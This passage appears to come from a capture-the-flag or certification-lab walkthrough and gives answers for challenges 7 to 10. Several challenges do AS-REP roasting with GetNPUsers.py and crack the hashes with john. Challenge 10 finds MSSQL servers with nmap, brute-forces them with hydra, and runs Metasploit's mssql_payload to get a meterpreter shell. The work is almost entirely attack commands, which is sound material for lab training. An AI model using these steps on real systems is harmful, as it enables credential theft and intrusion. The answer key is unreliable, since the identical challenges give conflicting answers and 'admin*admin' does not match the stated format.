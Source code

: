 ```bash
- open report export.txt file
- find remote ip with higher no of packets
```
Answer: `172.30.10.99`

### Challenge 7:
You are assigned to analyse the domain controller from the target subnet and perform AS-REP roasting attack on the user accounts and determine the password of the vulnerable user whose credentials are obtained. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. *(Format: `aNaaN*NNN`)*{: .highlight}

```bash
- python3 GetNPUsers.py SKILL.com/ -no-pass -usersfile ~/users.txt -dc-ip 192.168.0.222
```
Answer: `admin*admin`

### Challenge 8:
You are assigned to analyse the domain controller from the target subnet and perform AS-REP roasting attack on the user accounts and determine the password of the vulnerable user whose credentials are obtained. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. *(Format: `aNaaN*NNN`)*{: .highlight}

```bash
- python3 GetNPUsers.py SKILL.com/ -no-pass -usersfile ~/users.txt -dc-ip 192.168.0.222
- copy the hash from output and paste in a txt file a.txt
- john --wordlist=rockyou.txt ~/a.txt
```
Answer: `admin*admin`

### Challenge 9:
You are assigned to analyse the domain controller from the target subnet and perform AS-REP roasting attack on the user accounts and determine the password of the vulnerable user whose credentials are obtained. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. *(Format: `aNaaN*NNN`)*{: .highlight}

```bash
- python3 GetNPUsers.py SKILL.com/ -no-pass -usersfile ~/users.txt -dc-ip 192.168.0.222
- copy the hash from output and paste in a txt file a.txt
- john --wordlist=rockyou.txt ~/a.txt
```
Answer: `c3ll0@123`
 
### Challenge 10:
A client machine under the target domain controller has a misconfigured SQL server vulnerability. Your task is to exploit this vulnerability, retrieve the MSS.txt file located in the Public Downloads folder on the client machine and determine its size in bytes as answer. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. *(Format: N)*{: .highlight}

```bash
1.	scan all networks with open port 1433 | nmap -p 1433 192.168.10.0/24 --open
2.	Try bruteforce all ips with open 1433 port
3.	hydra -U username.txt -P password.txt 192.168.10.144 mssql
4.	user = Server_mssrv  and Password = Spidy
5.	 python3 /Ad-tools/impacket/examples/mssqlclient.py SKILL.com/Server_mssrv:Spidy@192.168.10.144  -port 1433
6.	Then type this [ SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell'; ]
7.	type exit.
8.	Goto msfconsole
9.	▪ use exploit/windows/mssql/mssql_payload ▪ set RHOST 192.168.10.144 ▪ set USERNAME Server_mssrv ▪ set PASSWORD Spidy ▪ set DATABASE msdb
10.	Exploit
11.	In meterpreter, type shell
12.	type cd /Users/Public/Downloads/  and type dir
```